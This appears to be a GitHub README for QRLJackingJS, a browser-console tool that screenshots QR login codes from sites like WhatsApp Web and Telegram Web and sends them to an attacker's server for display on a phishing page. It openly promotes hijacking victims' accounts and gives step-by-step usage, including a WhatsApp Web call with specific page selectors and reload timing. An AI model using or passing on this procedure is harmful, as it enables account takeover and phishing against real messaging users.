 
<p align="center">
<img src="https://i.imgur.com/amRpKil.png" width="550px">
</p>

# About

Using a web browser only, this tool will copy the login QR code from your browser and send it to your own server so you can display it in a phishing page (~ real time). The QR code login method is supported by many apps including WhatsApp and Telegram, this tool will allow you to hack into victims accounts in no time.

# Documentation (Usage)

#### Step 1.

Open Firefox or Chrome (desktop verison) and go to the target website where you can find the needed QR code.

#### Step 2.

In the top address bar you can see permissions button on the left / right side. You must allow pop-ups for the target website. Also, you can allow pop-ups from the website permissions / settings list.

#### Step 3.

A. add the JQuery library code to the target browser tab using the Inspect Element → Console → Copy & Paste & Hit Enter.

```html
Copy the code from: jquery.min.js
```

B. add QRLJackingJS code (included) to the target browser tab using the Inspect Element → Console → Copy & Paste & Hit Enter.

```html
Copy the code from: qrljackingjs.min.js
```

#### Step 4.

Open inspect element tool in your browser then inpect the QR code or its container. Also, if there's a reload button like the one in WhatsApp Web, you can select it too to make sure that the tool will reload it automatically.

#### Step 5.

Now you are ready to start the attack. Call **QRLJackingJS()** function after adding your prefered settings.

```javascript
QRLJackingJs(
bas64ImageServerPOSTParam, // the parameter you have on your server to receive the base64 encoded image 
elementToScreenshotSelector, // the element that has the QR image in it eg. #qrCodeDiv 
attackWaitingTimeBeforeSendingEachScreenshotInSeconds, // waiting time between each screenshot sending. Recommended: 4
reloadButtonSelector, // optional: used to auto click the QR code reload element if any 
reloadButtonWaitingTimeBeforeSendingInSeconds // optional: waiting time after clicking the reload button and before sending the screenshot 
);
```

WhatsApp Web real example:

```javascript
QRLJackingJs(
'base64_image', // the parameter you have on your server to receive the base64 encoded image
'._2UwZ_:first', // the element that has the QR image in it
4, // waiting time between each screenshot sending
'._2znac:first', // used to auto click the QR code reload element if any
2 // waiting time after clicking the reload button and before sending the screenshot
);
```

### Explanation

The result is that the tool will send the QR code screenshot (._2UwZ_:first) to your server URL (the tool will ask you to enter it) each 4 seconds, the POST request parameter will be (base64_image) and the tool will auto-click the reload button (._2znac:first) then wait (2 seconds) before sending the new QR code again.

### Testing On WhatsApp Web and Telegram Web (PoC)

https://www.youtube.com/watch?v=MxbnwWJoMN0

### Official Project Documentation & Guide

Visit the project official page for step-by-step, screeshots and video guides:

https://uplody.com/lab/qrljackingjs/

### Copyrights

- QRLJackingJS Author: Mohammad F. Atwi | https://www.linkedin.com/in/mohd-atwi/
- QRLJacking Attack Author: Mohamed Abdelbasset Elnouby (@SymbianSyMoh) | https://github.com/SymbianSyMoh
- OWASP QRLJacking Attack: https://owasp.org/www-community/attacks/Qrljacking

